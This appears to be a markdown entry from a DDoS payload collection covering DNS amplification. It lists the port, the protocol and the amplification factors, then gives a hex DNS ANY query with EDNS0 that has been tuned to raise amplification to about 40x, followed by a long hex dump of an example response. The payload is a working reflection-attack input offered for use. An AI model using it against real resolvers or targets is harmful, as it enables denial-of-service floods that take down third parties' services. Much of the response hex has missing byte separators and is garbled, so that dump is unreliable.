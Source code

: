 # DNS-Amplification

## Port: 53

## Proto: UDP

## Amplification factor: 10-30x

### Refined payload
- From 44 Byte to 500 Byte
- Amplification factor increased to ~40x
<pre>C4\75\01\00\00\01\00\00\00\00\00\01\00\00\FF\00\01\00\00\29\23\28\00\00\00\00\00\00\00\00\00\00\00</pre>

### Example response

<pre>C4\75\81\8000\01\00\0E\00\00\00\01\00\00\FF\00\01\00\00\0200\01\00\00\23\AF\00\14\01\6C\0C\72\6F\6F\74\2D73\65\72\76\65\72\73\03\6E\65\74\00\00\00\02\0001\00\00\23\AF\00\04\01\6B\C0\1E\00\00\02\00\0100\00\23\AF\00\04\01\67\C0\1E\00\00\02\00\01\0000\23\AF\00\04\01\69\C0\1E\00\00\02\00\01\00\0023\AF\00\04\01\6A\C0\1E\00\00\02\00\01\00\00\23AF\00\04\01\66\C0\1E\00\00\02\00\01\00\0023\AF00\04\01\62\C0\1E\00\00\02\00\01\00\00\23\AF\0004\01\61\C0\1E\00\00\02\00\01\00\00\23\AF\00\0401\68\C0\1E\00\00\02\00\01\00\00\23\AF\00\04\016D\C0\1E\00\00\02\00\01\00\00\23\AF\00\04\01\63C0\1E\00\00\02\00\01\00\00\23\AF\00\04\01\64\C01E\00\00\02\00\01\00\00\23\AF\00\04\01\65\C0\1E00\00\2E\00\01\00\00\23\AF\01\13\00\02\08\00\0007\E9\00\68\54\EA\D0\68\43\B9\40\CF\9C\00\22\5811\A8\0F\4D\30\FF\1C\42\2F\86\56\48\C1\45\C9\2A6D\85\D4\03\EE\CF\17\FE\F5\60\31\5E\84\43\C5\8BBC\4F\8F\3D\5F\08\23\D0\A0\92\7B\75\2C\4F\8D\41A5\A0\94\F1\DC\0F\7E\2B\5E\B3\AB\B7\8C\AB\EC\67AA\9D\14\A2\22\88\EC\95\A1\B8\EB\F8\3C\5D\E1\D875\17\98\62\F3\16\EB\22\95\38\25\90\54\32\5A\DE2C\50\D3\9E\9F\23\4F\B9\B5\9A\24\08\8D\A1\8B\E084\44\4E\68\69\47\2D\7E\F8\18\03\0A\85\81\BB\B187\F5\11\8A\FD\5F\3A\2C\74\1D\56\90\26\E5\FC\9755\E5\88\3D\AA\0F\92\55\12\A1\6B\C0\AB\EE\B0\DBBD\A7\26\A0\31\C5\AA\99\44\38\7B\92\79\3B\A7\10CC\DB\C3\44\60\D1\CA\E1\BC\15\E7\1D\02\4A\A8\423D\E4\A8\28\63\D7\85\AB\E6\98\8E\E0\27\3D\DC\EF70\42\DE\8B\D7\04\AE\8D\3E\77\E6\79\78\7C\AE\F9A9\76\53\66\96\78\CC\BC\25\76\5B\A1\4D\B3\20\D4A\F3\95\7B\80\B6\1F\C6\CD\2D\B9\66\2D\A5\00\0029\04\D0\00\00\00\00\00\00\</pre>
